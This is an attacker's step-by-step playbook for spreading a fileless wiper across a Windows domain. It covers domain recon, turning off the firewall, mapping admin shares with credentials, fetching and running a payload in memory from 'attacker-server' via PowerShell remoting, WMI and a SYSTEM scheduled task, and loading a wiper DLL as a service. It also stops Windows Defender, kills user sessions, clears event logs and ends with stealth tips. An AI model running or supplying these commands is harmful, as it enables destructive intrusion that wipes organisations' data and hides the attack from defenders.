 

# Fileless Wiper Lateral Movement & Execution Workflow

---

### **Phase 1: Recon & Target Enumeration**

1. **Enumerate accessible hosts on the network:**

   ```cmd
   net view /domain
   ```
2. **Enumerate users and groups on remote host:**

   ```cmd
   net user /domain
   net localgroup administrators /domain
   ```
3. **Check open SMB shares and access:**

   ```cmd
   net view \\targetHost
   net use \\targetHost\ADMIN$ /user:domain\adminUser Password123
   ```

---

### **Phase 2: Network Preparation & Firewall Manipulation**

1. **Open required ports (e.g., SMB TCP 445) remotely:**

   ```cmd
   netsh advfirewall firewall add rule name="AllowWiper" dir=in action=allow protocol=TCP localport=445
   ```
2. **Optionally disable Windows Firewall during attack window:**

   ```cmd
   netsh advfirewall set allprofiles state off
   ```
3. **(Optional) Add stealthy firewall rules post-attack to maintain access:**

   ```cmd
   netsh advfirewall firewall add rule name="Allow SMB" dir=in action=allow protocol=TCP localport=445
   ```

---

### **Phase 3: Credential Use & Drive Mapping**

1. **Map remote admin share for lateral command execution:**

   ```cmd
   net use Z: \\targetHost\ADMIN$ /user:domain\adminUser Password123
   ```
2. **Verify access with mapped drive:**

   ```cmd
   dir Z:\
   ```

---

### **Phase 4: Fileless Payload Deployment via PowerShell Remoting or WMI**

1. **Invoke a reflective PowerShell payload in-memory on the remote host:**

   ```powershell
   Invoke-Command -ComputerName targetHost -ScriptBlock {
     IEX (New-Object Net.WebClient).DownloadString('http://attacker-server/payload.ps1')
   } -Credential (Get-Credential)
   ```
2. **Alternatively, use WMI to execute commands remotely:**

   ```cmd
   wmic /node:targetHost process call create "powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker-server/payload.ps1')"
   ```

---

### **Phase 5: Service Control via `net` & `sc`**

1. **Create and start a service to load reflective DLL payload in-memory:**

   ```cmd
   sc \\targetHost create WiperService binPath= "rundll32.exe C:\Windows\Temp\wiper.dll,EntryPoint"
   sc \\targetHost start WiperService
   ```
2. **Stop defender or AV services remotely to avoid detection:**

   ```cmd
   net stop "Windows Defender Antivirus Service"
   ```
3. **Kill active user sessions to lock users out:**

   ```cmd
   net session \\targetHost /delete
   ```

---

### **Phase 6: Cleanup and Persistence**

1. **Restore firewall to less suspicious state:**

   ```cmd
   netsh advfirewall reset
   ```
2. **Schedule lateral moves or payload execution for persistence:**

   ```cmd
   schtasks /Create /S targetHost /SC ONLOGON /TN "WiperTask" /TR "powershell -nop -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker-server/payload.ps1')" /RU SYSTEM
   ```
3. **Clear event logs remotely:**

   ```powershell
   Invoke-Command -ComputerName targetHost -ScriptBlock { wevtutil cl Security; wevtutil cl System; wevtutil cl Application }
   ```

---

### **Key Considerations**

* **Payload delivery is purely in-memory** — no executable or DLL is permanently dropped to disk.
* Use **native signed binaries (`net`, `netsh`, `sc`, `powershell`, `wmic`) only** for stealth.
* **Throttle lateral movement and randomize host targeting** to reduce detection likelihood.
* Use **valid domain credentials** or escalate privileges beforehand.
* Monitor network and endpoint logs if possible, then adjust firewall rules and execution timings.

